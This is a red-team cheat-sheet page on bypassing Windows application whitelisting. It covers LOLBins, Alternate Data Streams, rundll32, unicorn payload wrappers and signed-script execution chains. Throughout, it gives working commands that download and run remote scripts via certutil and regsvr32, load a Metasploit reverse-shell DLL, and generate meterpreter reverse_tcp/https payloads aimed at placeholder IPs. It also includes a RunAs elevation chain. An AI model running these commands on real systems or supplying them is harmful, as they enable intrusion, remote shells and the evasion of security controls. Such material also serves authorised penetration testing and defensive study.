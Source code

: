 # Basic Tricks

## LOLBins

&#x20;Using [LOLBins](https://lolbas-project.github.io/#) we can bypass some protections and execute malicious payloads.

{% embed url="https://lolbas-project.github.io" %}

{% hint style="info" %}
To search for a specific function in LOL binaries, use `/function` key word. for example : `/execute`
{% endhint %}

## Alternate Data Streams

Execute a .EXE file stored as an Alternate Data Stream (ADS)

```
wmic.exe process call create "c:\ads\file.txt:program.exe"
```

Download and save a PS1 file to an Alternate Data Stream (ADS).

```
certutil.exe -urlcache -split -f https://raw.githubusercontent.com/Moriarty2016/git/master/test.ps1 c:\temp:ttt
```

Add content to an Alternate Data Stream (ADS).

```
cmd.exe /c echo regsvr32.exe ^/s ^/u ^/i:https://raw.githubusercontent.com/redcanaryco/atomic-red-team/master/atomics/T1218.010/src/RegSvr32.sct ^scrobj.dll > fakefile.doc:payload.bat
```

Execute evil.dll which is stored in an Alternate Data Stream (ADS).

```
control.exe c:\windows\tasks\file.txt:evil.dll
```

Use cscript.exe to exectute a Visual Basic script stored in an Alternate Data Stream (ADS).

```
cscript c:\ads\file.txt:script.vbs
```

## Using DLLs & macros

We can create a DLL containing a Metasploit payload and then run it on the victim system via the rundll32.exe available in all versions of Windows. This is often available, even with SRP enabled, as it is located in C:\Windows and is not restricted by default in many SRP deployments. Scripts and macro payloads are also valuable. Macros especially tend to be allowed for complicated forms and other Office document functionality.

```
C:\> rundll32.exe reverse_shell.dll,Main
```

After we execute the command rundll32.exe CALC.dll,DoesntExist, our DLL will be loaded into memory, and our embedded Metasploit payload will be run through the initialization code. The DoesntExist parameter needs to be included, but it does not have to be a real function exported by the DLL

## Using Payload Wrappers

we can use various open source payload wrappers that add  an extra layer to msfvenom payloads. not much of an FUD payload, but still effective.

{% embed url="https://github.com/trustedsec/unicorn" %}

for example with unicorn tool:

```
unicorn.py windows/meterpreter/reverse_tcp X.X.X.X 443 hta
```

or

```
python unicorn.py windows/meterpreter/reverse_https 192.168.5.5 443 dde
```

## System DLLs

we can use functions from system DLLs such as CMD screensaver.

```
C:\Windows> copy System32\cmd.exe Temp\cmd.scr
C:\Windows> rundll32.exe desk.cpl,InstallScreenSaver
```

## Multi-level Execution

By using multiple levels of execution, it could be possible to stumble into one that is explicitly allowed or has special privileges. Here we see cmd.exe running cscript.exe, which runs a VBS script included with Windows. This script can be abused to run other things. A great side effect of using this script: it is signed by Microsoft, and therefore often explicitly allowed to run. Then the PowerShell process is started, using a “- Verb RunAs” argument which attempts to re-establish “High Integrity” context, essentially giving an administrative user back their administration rights.

```
cmd.exe /c cscript.exe \windows\system32\SyncAppvPublishingServer.vbs ".;Start-Process rundll32.exe 'shell32.dll,ShellExec_runDLL cmd.exe' -Verb RunAs" 
```

we can do the same with powershell:

```
Powershell.exe -Command Set-ExecutionPolicy RemoteSigned -Scope Process; Powershell.exe -File "path to master script"
```
